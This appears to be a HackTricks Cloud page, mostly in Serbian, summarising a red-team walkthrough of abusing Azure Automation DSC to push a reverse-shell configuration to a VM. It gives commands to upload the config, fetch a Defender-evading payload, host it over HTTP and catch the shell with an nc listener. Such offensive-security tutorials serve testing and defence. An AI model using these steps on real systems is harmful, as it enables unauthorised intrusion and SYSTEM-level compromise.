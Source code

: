 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Proces uključuje postavljanje infrastrukture udaljenog servera za hostovanje modifikovanog Nishang `Invoke-PowerShellTcp.ps1` payload-a, nazvanog `RevPS.ps1`, dizajniranog da zaobiđe Windows Defender. Payload se servira sa Kali Linux mašine sa IP `40.84.7.74` koristeći jednostavan Python HTTP server. Operacija se izvršava kroz nekoliko koraka:

#### Step 1 — Create Files

* **Files Required:** Potrebna su dva PowerShell skripta:
1. `reverse_shell_config.ps1`: Datoteka Desired State Configuration (DSC) koja preuzima i izvršava payload. Može se preuzeti sa [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Skript za objavljivanje konfiguracije na VM, dostupan na [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Varijable i parametri u ovim datotekama moraju biti prilagođeni specifičnom okruženju korisnika, uključujući imena resursa, putanje do datoteka i identifikatore servera/payload-a.

#### Step 2 — Zip Configuration File

* Datoteka `reverse_shell_config.ps1` se kompresuje u `.zip` datoteku, čineći je spremnom za prenos na Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Postavite kontekst skladišta i otpremite

* Zipped konfiguracioni fajl se otprema u unapred definisani Azure Storage kontejner, azure-pentest, koristeći Azure-ovu Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Priprema Kali Box-a

* Kali server preuzima RevPS.ps1 payload iz GitHub repozitorijuma.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Skripta se uređuje da specificira ciljni Windows VM i port za reverznu ljusku.

#### Step 5 — Publish Configuration File

* Konfiguracioni fajl se izvršava, što rezultira u tome da se skripta za reverznu ljusku postavlja na određenu lokaciju na Windows VM.

#### Step 6 — Host Payload and Setup Listener

* Pokreće se Python SimpleHTTPServer za hostovanje payload-a, zajedno sa Netcat slušateljem za hvatanje dolaznih konekcija.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Zakazani zadatak izvršava payload, postižući privilegije na nivou SISTEMA.

#### Zaključak

Uspešna izvršenja ovog procesa otvara brojne mogućnosti za dalja delovanja, kao što su dumping kredencijala ili proširenje napada na više VM-ova. Vodič podstiče kontinuirano učenje i kreativnost u oblasti Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
